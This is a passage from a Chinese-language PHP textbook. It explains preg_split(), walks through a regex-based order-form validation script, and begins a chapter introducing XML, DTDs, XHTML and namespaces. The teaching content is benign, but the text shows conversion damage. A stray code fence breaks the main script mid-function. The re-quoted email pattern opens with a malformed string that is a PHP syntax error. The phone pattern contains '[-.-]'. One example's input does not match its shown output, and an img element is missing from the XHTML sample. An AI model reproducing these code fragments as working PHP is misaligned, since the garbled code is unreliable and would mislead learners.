## 使用正则表达式拆分字符串

本章探讨的最后一个正则表达式函数是 preg_split()。在第 6 章中，您学习了 explode() 函数，它允许将字符串拆分为子字符串数组。您传入一个分隔符字符串（例如逗号），目标字符串将在找到分隔符的每个位置处拆分。

preg_split() 通过允许您为分隔符指定正则表达式，将字符串拆分推进了一步。在决定按什么拆分字符串时，这为您提供了更大的灵活性，在需要解析以人类友好形式编写的字符串时非常有用。请参考以下示例：

```php
$text = "John Steinbeck, Franz Kafka and J.R.R. Tolkien";
$authors = preg_split( "/,\s*|\s+and\s+/", $text );
echo "<pre>";
print_r( $authors );
echo "</pre>";
```

这段代码将输入字符串拆分为各个作者姓名。正则表达式匹配逗号后跟零个或多个空白字符，或由一个或多个空白字符包围的单词“and”。这意味着，每当输入字符串中找到这两种模式之一时，字符串就会在该点处拆分，产生以下结果：

```
Array
(
    [0] => John Steinbeck
    [1] => Franz Kafka
    [2] => J.R.R. Tolkien
)
```

与 explode() 类似，您可以通过将整数作为第三个参数传递给 preg_split() 来限制返回的数组元素数量。您还可以通过将一些可选标志作为第四个参数传递来控制 preg_split() 的行为：

- PREG_SPLIT_NO_EMPTY：从返回的数组中删除任何空子字符串。这对于删除不需要的子字符串很有用，如您稍后将看到
- PREG_SPLIT_DELIM_CAPTURE：导致分隔符表达式中任何匹配的子模式以及字符串部分都在数组中返回
- PREG_SPLIT_OFFSET_CAPTURE：这与 preg_match() 的 PREG_OFFSET_CAPTURE 标志的工作方式非常相似。设置后，preg_split() 返回一个数组的数组，其中每个嵌套数组包含两个元素：提取的子字符串的文本及其在原始字符串中的位置

要设置多个标志，请使用按位或运算符将它们组合——例如：PREG_SPLIT_NO_EMPTY | PREG_SPLIT_DELIM_CAPTURE。

如果您想设置一个或多个标志且不想限制返回的元素数量，请将 -1 作为第三个参数传递。

要了解 PREG_SPLIT_NO_EMPTY 有多有用，请参考以下示例：

```php
$text = "hello', 'goodbye'";
$letters = preg_split( "/[', ]/", $text );
echo "<pre>";
print_r( $letters );
echo "</pre>";
```

这段代码显示：

```
Array
(
    [0] =>
    [1] => hello
    [2] =>
    [3] =>
    [4] =>
    [5] => goodbye
    [6] =>
)
```

这是因为正则表达式导致撇号、逗号和空格字符中的任何一个都被视为分隔符。因此，字符串在开头和结尾处被拆分，因为第一个和最后一个字符是分隔符，并且在“hello”和“goodbye”之间也被拆分了三次，因为 preg_split() 在输入字符串的撇号、逗号和空格字符之间“看到了”三个空字符串。

自然，这些空子字符串是不需要的。通过设置 PREG_SPLIT_NO_EMPTY 标志，您可以轻松地从结果数组中删除这些子字符串：

```php
$text = " 'hello', 'goodbye' ";
$letters = preg_split( "/[', ]/", $text, -1, PREG_SPLIT_NO_EMPTY );
echo "<pre>";
print_r( $letters );
echo "</pre>";
```

这段代码产生所需的结果：

```
Array
(
    [0] => hello
    [1] => goodbye
)
```

## 尝试：验证表单输入

正则表达式常用于检查用户输入是否符合正确的格式。例如，您可以使用正则表达式来确定用户提供的日期字段是否包含格式正确的日期字符串，或提供的电子邮件地址是否遵循电子邮件地址的标准规则。

此示例脚本为一家虚构公司创建了一个订单表，该公司销售三种产品系列：SuperWidgets（产品代码为“SWnnn”，其中“nn”是两位数字）、Mega Widgets（产品代码为“MWnnn”）和 WonderWidgets（产品代码为“WWnnn”）。用户可以输入其电子邮件地址、电话号码和要订购的产品代码。然后脚本验证电子邮件地址和电话号码字段，并将提供的任何有效产品代码转换为更易于人类阅读的形式，以便在确认页面上向用户显示。

将以下脚本另存为文档根文件夹中的 order_form.php。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Validating Order Form Fields</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>

<h1>Validating Order Form Fields</h1>

<?php

if ( isset( $_POST["submitted"] ) ) {
processForm();
} else {
displayForm();
}

function displayForm() {
?>
<h2>Please enter your order details below then click Send Order:</h2>
<form action="" method="post" style="width: 30em;">

<div>
<input type="hidden" name="submitted" value="1" />
<label for="emailAddress">Your Email Address:</label>
<input type="text" name="emailAddress" id="emailAddress" value="" />
<label for="phoneNumber">Your Phone Number:</label>
<input type="text" name="phoneNumber" id="phoneNumber" value="" />
<label for="productCodes">Product Codes to Order:</label>
<input type="text" name="productCodes" id="productCodes" value="" />
<label />
<input type="submit" name="submitButton" value="Send Order" />
</div>
</form>
<div style="clear: both;"> </div>
<p>(Separate product codes by commas. Codes are SW, MW, WW followed by 2 digits.)</p>
<?php
}

function processForm() {
$errorMessages = array();

$emailAddressPattern = "/
^ # Start of string
\w+((-|.)\w+)* # Some word characters optionally separated by - or .
@
[A-Za-z\d]+ # Domain name: some alphanumeric characters
(([-.])[A-Za-z\d]+)* # followed 0 or more times by (- or . and more alphanums)
\.[A-Za-z\d]+ # followed by a final dot and some alphanumerics
$ # End of string
/x";

$phoneNumberPattern = "/
^ # Start of string
( # Optional area code followed by optional
# separator:
\((\d{3})\)[-. ]? # Code with parentheses
| # or
\d{3}[-. ]? # Code without parentheses
)?
\d{3} # Prefix
[-.] # Hyphen or dot separator
\d{4} # Line number
$ # End of string
/x";

$productCodePattern = "/^(SW|MW|WW)(\d{2})$/i";

if ( !preg_match( $emailAddressPattern, $_POST["emailAddress"] ) )
$errorMessages[] = "Invalid email address";
if ( !preg_match( $phoneNumberPattern, $_POST["phoneNumber"] ) )
$errorMessages[] = "Invalid phone number";

if ( $errorMessages ) {
    echo "<p>There was a problem with the form you sent:</p><ul>";
    foreach ( $errorMessages as $errorMessage ) echo "<li>$errorMessage</li>";
    echo "<p>Please <a href=\"javascript:history.go(-1)\">go back</a> and try again.</p>";
} else {
    echo "<p>Thanks for your order! You ordered the following items:</p><ul>";
    $productCodes = preg_split( "/\W+/", $_POST["productCodes"], -1, PREG_SPLIT_NO_EMPTY );
    $products = preg_replace_callback( $productCodePattern, "expandProductCodes", $productCodes );
    foreach ( $products as $product ) echo "<li>$product</li>";
    echo "</ul>";
}
}

function expandProductCodes( $matches ) {


```php
$productCodes = array(
    "SW" => "SuperWidget",
    "MW" => "MegaWidget",
    "WW" => "WonderWidget"
);
return $productCodes[$matches[1]] . " model #" . $matches[2];
}
?>
</body>
</html>
```

通过在 Web 浏览器中打开其 URL 来运行脚本。使用电子邮件地址和电话号码以及按规定格式填写的某些产品代码填写表单，如图 18-2 所示。单击 Send Order 按钮处理表单。注意感谢页面（图 18-3）如何将您输入的产品代码扩展为更有意义的产品名称。

尝试返回表单并以不同格式输入电子邮件地址和电话号码，然后重新提交表单。您应该会发现，尽管该脚本对不同格式相当宽容，但它仍会拒绝任何不遵守标准格式规则的电子邮件地址或电话号码。


图 18-2


图 18-3

### 工作原理

该脚本遵循您在本书中多次见过的标准“表单处理器”格式。displayForm() 被调用以显示表单标记，在本例中，该标记由电子邮件地址字段、电话号码字段和产品代码列表组成。

processForm() 执行两项广泛的任务：首先，它使用正则表达式验证输入的电子邮件地址和电话号码；其次，它使用更多正则表达式将输入的产品列表拆分为单独的产品代码，然后将这些代码转换为人类可读的形式。

创建一个数组来存储错误消息后，该函数定义一个字符串来保存用于验证电子邮件地址的正则表达式：

```php
$emailAddressPattern = "/"
^
\w+((-|\.)\w+)*           # Some word characters optionally separated by - or
# .
\@
[A-Za-z\d]+               # Domain name: some alphanumeric characters
((-|\.)[A-Za-z\d]+)*      # followed 0 or more times by (- or . and more
# alphanums)
\.[A-Za-z\d]+             # followed by a final dot and some alphanumerics
$                       # End of string
/x";
```

## 第 18 章：使用正则表达式进行字符串匹配

通过使用 x 模式修饰符，该表达式以易于阅读的格式排列。注释有助于使表达式不言自明。基本上，要匹配该表达式，电子邮件地址需要由名称部分、@（at）符号和域部分组成。

名称部分应为字母和/或数字组成的字符串。该字符串可以选择包含连字符、点或下划线；但是，名称不能以连字符或点开头或结尾。

域部分需以字母和/或数字组成的字符串开头，该字符串可以选择包含连字符或点，并以最终点和更多字母和/或数字结尾（例如，“.com”）。

接下来，该函数定义一个正则表达式来验证美国电话号码：

```php
$phoneNumberPattern = "/
^                       # Start of string
(                       # Optional area code followed by optional
                        # separator:
    (\(\d{3}\)) [-.] ?  # Code with parentheses
    |                     # or
    \d{3}[-.] ?          # Code without parentheses
)?
\d{3}                    # Prefix
[-.-]                     # Hyphen or dot separator
\d{4}                    # Line number
$                       # End of string
/x";
```

美国电话号码可以由可选的三位区号组成，后跟可选的连字符、点或空格，然后是三位前缀，接着是连字符或点，最后是四位行号。该表达式可以处理带括号的区号（例如 (599) 123-4567），也可以处理不带括号的区号（例如：599-123-4567）。

该函数还定义一个匹配有效产品代码的正则表达式——用于将产品代码转换为产品名称：

```php
$productCodePattern = "/^(SW|MW|WW)(\d{2})\$/i";
```

产品代码只是“SW”、“MW”或“WW”，后跟一个两位数字。请注意，产品代码的两个部分都使用子模式进行匹配，以便可以提取匹配的值。

现在，该函数验证提供的电子邮件地址和电话号码。如果其中任何一个不匹配，将生成一条错误消息：

```php
if ( !preg_match( $emailAddressPattern, $_POST["emailAddress"] ) )
$errorMessages[] = "Invalid email address";
if ( !preg_match( $phoneNumberPattern, $_POST["phoneNumber"] ) )
$errorMessages[] = "Invalid phone number";
```

如果生成了一个或多个错误消息，则将其显示给用户：

```php
if ( $errorMessages ) {
    echo "<p>There was a problem with the form you sent:</p><ul>";
    foreach ( $errorMessages as $errorMessage ) echo "<li>$errorMessage</li>";
    echo '<p>Please <a href="javascript:history.go(-1)">go back</a> and try again.</p>';
}
```

如果表单一切正常，将显示一条感谢消息，并以扩展形式向用户显示订购产品列表：

```php
} else {
    echo "<p>Thanks for your order! You ordered the following items:</p><ul>";
    $productCodes = preg_split( "/\W+/", $_POST["productCodes"], -1, PREG_SPLIT_NO_EMPTY );
    $products = preg_replace_callback( $productCodePattern, "expandProductCodes", $productCodes );
    foreach ( $products as $product ) echo "<li>$product</li>";
    echo "</ul>";
}
```

首先，使用 preg_split() 将提供的产品代码字符串拆分为单独产品代码的数组。分隔符是一个或多个非单字符（\W+）的字符串。这允许一定的灵活性；例如，用户可以使用逗号分隔代码，或使用逗号后跟一个空格，或使用连字符。

接下来，将产品代码数组传递给 preg_replace_callback() 以将其转换为产品名称数组（$products）。先前创建的产品代码正则表达式（$productCodePattern）用于匹配产品代码的两个部分。扩展由 expandProductCodes() 函数处理，该函数将稍后解释。

最后，该函数遍历 $products 数组，以无序列表显示产品名称。

expandProductCodes() 函数定义一个数组，将产品代码的两个字母部分映射到产品系列：

```php
$productCodes = array(
    "SW" => "SuperWidget",
    "MW" => "MegaWidget",
    "WW" => "WonderWidget"
);
```

然后，只需使用该数组将第一个子模式匹配项（$matches[1]）转换为产品系列字符串，然后返回该字符串，后跟字符串“ model #”，再后跟第二个子模式匹配项（即两位数字的产品代码）：

```php
return $productCodes[$matches[1]] . " model #" . $matches[2];
```

## 摘要

本章向您介绍了正则表达式，这是一种在字符串中查找复杂文本模式的强大且紧凑的方法。您学习了正则表达式语法的各个组成部分，包括：

- 如何在正则表达式中包含字面字符
- 如何使用字符类匹配字符类型，例如字母或数字
- 使用量词连续多次匹配同一字符
- 通过使用贪婪匹配和非贪婪匹配来控制匹配的文本量
- 如何使用子模式使正则表达式更强大
- 创建替代模式以允许更灵活的匹配
- 使用锚点在目标字符串的特定位置匹配文本
- 使用模式修饰符修改匹配行为

您还探索了 PHP 的各种正则表达式函数，包括：

- preg_match() 和 preg_match_all() 用于将字符与正则表达式进行匹配
- preg_quote() 用于转义表达式中的特殊字符
- preg_grep() 用于匹配字符串数组
- preg_replace() 和 preg_replace_callback() 用于用新文本替换模式匹配项
- preg_split() 用于使用正则表达式匹配分隔符来拆分字符串

在此过程中，您研究了用于在网页中查找链接 URL 以及验证和处理用户输入的示例脚本。

下一章将介绍 XML——一种非常有用的存储和交换数据的方式——并向您展示如何在 PHP 脚本中读取和写入 XML 数据。与此同时，请尝试以下两个练习以检查您对正则表达式的理解。这些练习的解答可在附录 A 中找到。

## 练习

- 1. 编写一个正则表达式，用于提取 Web URL 的域名部分（如果提供了，则排除“www.”子域）。URL 的协议部分应为可选。例如，该表达式应从以下任何 URL 中提取域名“example.com”：
  - http://www.example.com/
  - http://www.example.com/hello/there.html


- [ ] http://example.com/hello/there.html
- [ ] www.example.com/hello/there.html
- [ ] https://www.example.com

2. 增强本章前面创建的 find_links.php 脚本，使其不仅显示每个链接的 URL，还要显示链接文本（<a> 和 </a> 标签之间的文本）。

## 使用 XML

XML — 可扩展标记语言 — 允许你创建能够以结构化方式存储数据的文本文档。它最初被设计为一种人类可读的结构化数据交换方式，但也迅速成为一种存储结构化数据的手段。尽管 XML 在很多方面与数据库不同，但 XML 和数据库都提供了格式化和存储结构化数据的方式，并且这两种技术都有各自的优缺点。

XML 实际上并不是一种语言，而是一种创建自定义标记语言的规范。它是标准通用标记语言（SGML，HTML 的母语言）的一个子集。XML 的目的是让不同的应用程序能够轻松交换数据。如果你熟悉 HTML，你会注意到 HTML 和 XML 文档的格式化方式有相似之处。尽管 HTML 规范中定义了一组固定的元素和属性，但 XML 允许你创建自己的元素和属性，从而让你能够在 XML 中定义自己的语言（或使用他人的定义）。基本上，你可以使用 XML 格式化任何想要的数据。

此外，基于 XML 的语言的定义可以放在网上，供任何人或应用程序读取。因此，两个彼此毫无了解的应用程序仍然可以交换数据，只要这两个应用程序都具有读取和写入 XML 的能力。

出于这些原因，XML 正迅速成为数据交换标准，并且在 XML 之上创建了许多有用的技术，例如：

- Web 服务，包括用于通过 HTTP 在 XML 格式中交换信息的语言，例如 SOAP、XML-RPC（SOAP 的更简单的祖先）以及用于描述 Web 服务的 Web 服务描述语言（WSDL）
- 应用程序文件格式，例如 OpenOffice 的 OpenDocument 格式（ODF）和 Microsoft 的 Office Open XML（OOXML），用于存储文字处理文档、电子表格等
- RSS 和 Atom 新闻馈送，允许 Web 应用程序以多种软件（从新闻阅读器和电子邮件客户端到其他 Web 站点应用程序）都可读取的通用格式发布新闻报道

## 第三部分：在实践中使用 PHP

PHP 具有许多特性和函数，使处理 XML 数据快速、高效且直观。在本章中，你将学习 XML 的基础知识以及如何从头开始创建 XML 文档。然后，你将学习如何使用 PHP 的 XML Parser 扩展以编程方式读取和解析 XML 文档。

一旦掌握了 XML Parser，你将探索 PHP 的 DOM 扩展，它为读取、创建和操作 XML 文档提供了强大的功能；然后你将了解 SimpleXML — 一种读取和对 XML 数据执行简单操作的良好、简单的方法。最后，你将简要了解另一种称为 XSL 的 XML 方面，并检查 PHP 的 `XSLTProcessor` 类，用于将 XML 文档转换为其他格式。

## 什么是 XML？

XML 是一种创建自定义标记语言的规范。你使用这些标记语言来创建文档。与 HTML 类似，XML 文档以标签的形式包含元素和属性。

尽管 XML 文档是人类可读的，但许多应用程序都是设计为自动解析 XML 文档并高效处理其内容的。PHP 具有许多与 XML 相关的函数，可以轻松用于处理 XML 文档，或将非 XML 数据转换为 XML 文档。

你可以像这样轻松创建自己的 XML 文档：

```
<?xml version="1.0" ?>
<stockList>
    <item type="fruit">
        <name>apple</name>
        <unitPrice>0.99</unitPrice>
        <quantity>412</quantity>
    </item>
    <item type="vegetable">
        <name>beetroot</name>
        <unitPrice>1.39</unitPrice>
        <quantity>67</quantity>
    </item>
</stockList>
```

此文档的第一行称为 XML 声明；它指示以下各行构成 XML 文档，并指定用于创建文档的 XML 版本。第二行定义文档的根元素（名为 stockList）。一个 XML 文档只能有一个根元素。第三行定义根元素的一个子元素，名为 item，并且它包含一个名为 type 且值为 fruit 的属性。

通过阅读此 XML 文档，你可以得知：

- 它存储一份库存物品列表
- 有 412 个苹果可用，苹果是水果，售价 $0.99
- 有 67 个甜菜根可用，甜菜根是蔬菜，售价 $1.39

与 HTML 类似，XML 文档主要由元素和属性组成。每个元素可选择包含一个或多个子元素；在刚才显示的示例文档中，根元素 stockList 内有两个 `item` 元素，每个 `item` 元素本身包含三个子元素。元素还可以包含纯文本而不是子元素（例如示例文档中第一个 `name` 元素内的文本 `apple`）。

XML 元素还可以同时包含子元素和纯文本，尽管这种用法在实际中并不常见。

每个元素可选择具有一个或多个属性；这些属性在元素的开放标签内以 `name="value"` 的格式指定（例如示例文档中的 `<item type="fruit">`）。

任何人都可以编写 XML 文档，许多人还会设计应用程序来处理 XML 文档——既读取现有文档，也编写新文档。XML 规范可供任何人免费使用；万维网联盟（位于 `www.w3.org`）编写并维护规范的最新版本。

虽然你可以通过创建任意元素和属性来编写 XML 文档——如前面的 `stockList` 示例所示——但通常你希望正式指定文档中允许的元素和属性，以及它们的含义和结构。这样，当你与其他人或应用程序交换数据时，交易双方都能确切知道元素和属性名称的含义。为此，你可以使用文档类型定义（DTD）或 XML 架构定义（XSD）；DTD 将在本章稍后详细讨论。

创建 XML 文档时，你通常要么使用现有的公开可用 DTD（或 XSD），要么使用自己编写的 DTD。编写 DTD 后，你可以将其发布到 Web 上。这意味着任何需要读取或编写与你的系统兼容的 XML 文档的人都有能力访问已发布的 DTD 以确保文档有效。

### XML 文档结构

在讨论 XML 时，你经常会听到两个术语：_格式正确_ 和 _有效_。格式正确的 XML 文档遵循基本的 XML 语法规则（稍后讨论），而有效文档还遵循 DTD 或 XSD 强加的规则。换句话说：

- 所有 XML 文档都必须格式正确 — 格式正确的 XML 文档使用正确的 XML 语法。它可以包含 XML 规范允许的任何元素、属性或其他结构，但关于这些元素和属性的名称可以是什么（除了基本命名规则，那其实不是什么限制）或其内容可以是什么，没有规则。正是这种可扩展性赋予了 XML 真正的强大功能和实用性；只要你遵循 XML 规范的基本规则，你可以添加或更改的内容就没有限制。

- XML 文档也可以是有效的 — 格式正确的文档不需要是有效的，但有效文档必须格式正确。如果格式正确的文档包含对 DTD 或 XSD 的引用，则可以根据 DTD 或 XSD 检查文档以确定其是否有效。如果 XML 文档的元素、属性和其他内容遵循 DTD 或 XSD 中的规则，则该文档是有效的。这些规则规定文档中元素或属性的名称、这些元素和属性允许包含的数据等。


通过使用有效的 XML 文档，互不相识的应用程序仍然可以有效通信——它们只需交换 XML 文档，并理解用于验证这些文档的 DTD 或 XSD 的含义。这是使 XML 如此强大的主要特性之一。

## XML 文档的主要部分

一般而言，格式正确的 XML 文档可能包含以下内容：

- 文档顶部的 XML 声明，可能包含字符编码声明。这个声明是个好主意，但不是强制性的。如果未提供 XML 声明，通常使用版本 1.0。如果未指定字符编码，则假定为 UTF-8。例如：
  `<?xml version="1.0" encoding="UTF-8"?>`

- 可选的 DTD 或 XSD，或者对其中一个的引用（如果它们存储在外部）。这必须出现在文档的根元素之前。例如，这是对外部 DTD 的引用：
  `<!DOCTYPE stockList SYSTEM "http://www.example.com/dtds/stockList.dtd">`

- 所有 XML 文档都必须包含一个且只有一个根元素。该元素通常包含一个或多个子元素，每个子元素可选地具有一个或多个属性。元素可以在其开始标记和结束标记之间包含其他子元素或数据，也可以为空。

- XML 文档可能包含其他组件，例如处理指令（PI，为特定应用程序提供机器指令）；CDATA 节，可包含普通 XML 数据中不允许的特殊字符；符号表示法；注释；实体引用（特殊字符等实体的别名）；文本；以及实体。本章稍后将介绍其中一些组件。

下面是之前使用过的 stockList 示例文档的增强版本，用于说明这些主要部分。首先是 XML 声明：

```
<?xml version="1.0" encoding="UTF-8"?>
```

接下来是定义文档中允许的元素和属性的 DTD 引用：

```
<!DOCTYPE stockList SYSTEM "http://www.example.com/dtds/stockList.dtd">
```

现在根元素开始。请记住，XML 文档中只能有一个根元素：

```
<stockList>
```

根元素包含两个 `item` 子元素。每个子元素本身包含四个子节点。`description` 元素包含 CDATA 节来封装其文本数据，因为数据包含 >、< 和 & 等字符，否则这些字符会被视为标记：

```
<item type="fruit">
    <name>apple</name>
    <unitPrice>0.99</unitPrice>
    <quantity>412</quantity>
    <description><![CDATA[Apples are >>>yummy<<<]]></description>
</item>
<item type="vegetable">
    <name>beetroot</name>
    <unitPrice>1.39</unitPrice>
    <quantity>67</quantity>
    <description><![CDATA[Beetroots are lovely & purple]]></description>
</item>
```

最后，根元素被关闭：

```
</stockList>
```

## XML 语法规则

您现在知道 XML 文档的主要组件是什么。此外，格式正确的 XML 文档必须遵循 XML 规范中的所有其他语法规则，最常见的规则列于此：

- XML 元素被声明为非空（在这种情况下，它们旨在包含数据）或空（在这种情况下，它们不能包含数据）。例如，在 XHTML 中，p（段落）元素是非空的，因为它可以包含文本；而 br（换行）元素是空的，因为它不能包含任何内容。

- 非空元素可以由开始标记和结束标记创建（例如 XHTML 中的 <p> ... </p> 标记）。空元素应使用特殊的空元素标记格式创建（例如 XHTML 中的 <br/> 标记）。与 HTML 不同，您不能有一个不带结束标记的开始标记。

- XML 属性写在非空元素的开始标记内，或写在空元素的空元素标记内，并且必须采用 name="value" 或 name='value' 格式。任何给定元素内的属性名称不能出现多次。例如：
  `<item type="vegetable"> ... </item>`
  `<emptyElement color='red' />`

- XML 元素必须正确嵌套，这意味着任何给定元素的开始标记和结束标记必须位于其内部元素的开始标记和结束标记之外，并位于其封闭元素的开始标记和结束标记之内。例如：
  `<!-- Incorrect nesting -->`
  `<parent><child></parent></child>`
  `<!-- Correct nesting -->`
  `<parent><child></child></parent>`

- 元素名称不能以字符 "xml"、"XML" 或这些字符的任何大小写组合（按此顺序）开头。名称必须以字母、下划线或冒号开头，但在实际中，除非您正在处理 XML 命名空间，否则永远不应该使用冒号。名称区分大小写。字母、数字、连字符、下划线和句点是首字符之后可以使用的有效字符。

- 注释的分隔方式与 HTML 注释相同（<!-- 和 -->）。

## 使用 XML 元素和属性

XML 元素及其属性构成了 XML 文档的层次结构，并包含文档的数据。虽然只能有一个根元素，但每个元素（包括根元素）都可以包含多个元素（通常称为 *子元素*）。此外，您可以拥有多个同名的子元素。

每个 XML 元素可以包含一个或多个属性；但是，任何给定元素内的属性名称只能出现一次。

关于何时使用属性、何时使用子元素来包含数据，存在一些争议。虽然没有绝对的规则，但一个很好的经验法则是：

- 当您可能需要在元素中多次包含同一字段时，请使用子元素。例如，前面描述的 *stockList* 根元素包含多个 *item* 子元素。使用属性无法实现这一点，因为任何给定元素不能有多个同名属性。

- 当您确定数据在元素中仅出现一次时，请使用属性，例如 *item* 元素的 *type* 属性（*item* 可以是水果或蔬菜，但不能同时是两者）。

另一个很好的经验法则是：对核心于元素的数据使用子元素，对外围于元素的数据或唯一标识元素的数据（例如 *id* 属性）使用属性。

## 有效的 XML 文档：DTD 和 XSD

如前所述，有效的 XML 文档是指包含对 DTD（文档类型定义）或 XSD（XML 架构定义）的引用，且其内容既遵循一般 XML 语法规则（即格式正确），也遵循 DTD 或 XSD 中指定的规则（即有效）。前面描述的“股票列表”XML 文档既格式正确又（可能）有效：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockList SYSTEM "http://www.example.com/dtds/stockList.dtd">
<stockList>
	<item type="fruit">
		<name>apple</name>
		<unitPrice>0.99</unitPrice>
		<quantity>412</quantity>
		<description><![CDATA[Apples are >>>yummy<<<]]></description>
	</item>
	<item type="vegetable">
		<name>beetroot</name>
		<unitPrice>1.39</unitPrice>
		<quantity>67</quantity>
		<description><![CDATA[Beetroots are lovely & purple]]></description>
	</item>
</stockList>
```

请注意第二行中对外部 DTD URL 的引用。这允许一段软件通过读取 DTD 并确保文档符合 DTD 来验证文档。当然，您可以手动阅读文档并将其与 DTD 中指定的元素、属性和其他文档组件进行比较，但有许多应用程序可以自动将 XML 文档与 DTD 或 XSD 进行验证。并且，由于 DTD 或 XSD 可直接在文档中或在线上获得，这些应用程序在解析文档时可以轻松为您自动执行验证功能。

> 也可以将 DTD 的内容嵌入 XML 文档本身，而非引用外部 DTD。但是，仅当 DTD 较小时才建议嵌入。

DTD 是使用扩展巴克斯-诺尔范式（EBNF）编写的特殊文档，它不是一种 XML 语言，也不如 XML 容易解析。DTD 对 XML 元素、属性、内容等指定约束。

XSD 与 DTD 服务于相同的目的，但使用基于 XML 的 XML Schema 语言编写，因此可以使用 XML 解析器轻松处理。XSD 在定义元素和属性的详细信息（例如数据类型、值范围等）方面也比 DTD 功能强大得多，因此许多 XML 作者更倾向于使用 XSD 而非 DTD。但是，XSD 是一个超出本书范围的复杂主题，因此本章专注于 DTD。

> 如果您对 XSD 感兴趣，可以在 http://www.w3schools.com/Schema/default.asp 上了解更多信息。

## XHTML：DTD 的实际应用示例

如前所述，任何人都可以编写 XML 文档，任何人都可以定义 DTD 或 XSD 来验证 XML 文档。DTD 的一个著名示例是 XHTML，它是重新表述为 XML 的 HTML。XHTML DTD 本质上与现有的 HTML DTD 相似，只是做了非常小的修改，并且它定义了 XHTML 文档中允许的所有元素、属性和其他组件。HTML 与 XHTML 的主要区别在于，XHTML 文档（本质上是 XML 文档）必须符合 XML 规范，而 HTML 文档不需要这样做。

要将 XHTML 文档显示为常规网页，该文档必须格式正确，并且要与 XHTML DTD 进行验证。在接下来的几个部分中，您将查看 XHTML DTD 的一部分，了解如何在 XHTML 文档中引用 DTD，探索 XML 命名空间，并学习如何创建 XHTML 网页。

## XHTML 的 DTD

XHTML 有三个 DTD。它们位于：

- www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd
- www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd
- www.w3.org/TR/xhtml1/DTD/xhtml1-frameset.dtd


这三个 DTD 与其 HTML 对应项互补，实际上十分相似。如果你在浏览器中输入这些 URL，实际上会看到以纯文本形式显示的 DTD。（你可能需要下载 DTD 文件并在文本编辑器中打开它。）

以下是 XHTML Strict DTD 的一部分，展示了 img（图像）元素的声明方式：

```
<!-- To avoid accessibility problems for people who aren’t
able to see the image, you should provide a text
description using the alt and longdesc attributes.
In addition, avoid the use of server-side image maps.
Note that in this DTD there is no name attribute. That
is only available in the transitional and frameset DTD.
-->

<!ELEMENT img EMPTY>
<!ATTLIST img
 %attrs;
 src        %URI;          #REQUIRED
 alt        %Text;         #REQUIRED
 longdesc   %URI;          #IMPLIED
 height     %Length;       #IMPLIED
 width      %Length;       #IMPLIED
 usemap     %URI;          #IMPLIED
 ismap      (ismap)        #IMPLIED
>
<!-- usemap points to a map element which may be in this document
or an external document, although the latter is not widely supported -->
```

注释后的第一行中，img 元素被声明为 EMPTY（即，它不包含任何内容，只有属性）。在 ELEMENT 行之后，是一系列可以包含在 XHTML 文档的 img 标签中的属性。熟悉 HTML 和 XHTML 的人无疑会将 src 属性识别为指定图像文件位置的 URI；该属性是 REQUIRED。

因此，XHTML 文档的这部分 DTD 指定，在这样的文档中包含 img 元素是允许的。如果 DTD 在 XHTML 文档中被引用，并且该文档包含带有适当 src 属性的 img 元素，那么可以说该文档是有效的（至少就 img 元素而言）。但是，如果你尝试包含名为 img、image 或 images 的元素，验证性 XML 解析器将会产生错误，因为根据 DTD，这些元素未被声明，因此文档无效。

## 引用 DTDs

要引用外部 DTD，你需要使用 DOCTYPE 声明。该声明指示 DTD 的名称和位置。例如，这一行展示了如何引用 XHTML Strict DTD：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
```

第一行中 <!DOCTYPE 后面的 html 表示根元素名为 html。该声明还包含了 www.w3.org 网站上的 DTD URI。如果 DTD 是外部文档，它可以位于任何地方，并由应用程序理解并有权访问的任何 URI 来标识，而不仅仅是互联网上的 URL。

## 指定命名空间

XML 命名空间指示元素和属性名称的来源。能够指定元素或属性名称的来源意味着，你可以在单个文档中使用相同的名称来表示不同的内容。如果需要，XML 文档可以引用多个命名空间。

在 XML 文档中，可以通过引用特殊的保留 XML 关键字（即 xmlns（XML 命名空间）属性）来标识命名空间。当应用于元素时，该命名空间对该元素及其子元素有效。

例如，XHTML 文档中的所有元素必须位于 XHTML 命名空间中。实现这一点的最简单方法是在 XHTML 文档的根元素（html）上使用 xmlns 属性。为根元素定义命名空间也定义了其所有子元素（即文档中其余元素和属性）的命名空间：

```
<html xmlns="http://www.w3.org/1999/xhtml">
```

## 创建 XHTML 文档

现在你已经了解如何创建有效的 XML 文档，可以应用这些知识来创建 XHTML 文档。

为此，首先指明你使用的 XML 版本，然后提供引用 XHTML DTD 的 DOCTYPE 声明。接下来，创建根元素 — html — 并包含 xmlns 属性以声明该元素（及其所有子元素）的 XHTML 命名空间。最后，你可以在 html 根元素下包含所有子元素——换句话说，就是你的 XHTML 页面的内容。

示例如下：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>An XHTML example</title>
</head>
<body>
<p>This is an example of an XHTML Strict document. It can contain images () as well as links (<a href="http://example.com">example.com</a>) and any other HTML elements, provided they conform to the XML syntax rules.</p>
</body>
</html>
```

当然，这个文档看起来非常像普通的 HTML 文档，并且在大多数浏览器中将像任何用 HTML 编写的网页一样显示。但是，与 HTML 文档不同，它符合 XML 规范，不仅格式正确，而且有效。

## 使用 PHP 读取 XML 文档

最近，随着 XML 规范作为交换和存储数据的手段日益受到重视，PHP 添加了越来越多的函数和类，以便更轻松地处理 XML 文档。

在本章剩余部分，你将重点学习 PHP 中的以下 XML 功能：

- 使用 XML Parser 扩展读取或解析 XML 文档
- 使用 DOM 扩展通过文档对象模型操作 XML 文档
- 使用 PHP 的 SimpleXML 扩展读取、写入和操作 XML 文档

本节介绍如何使用 XML Parser 读取 XML 文档。

### XML Parser 的工作原理

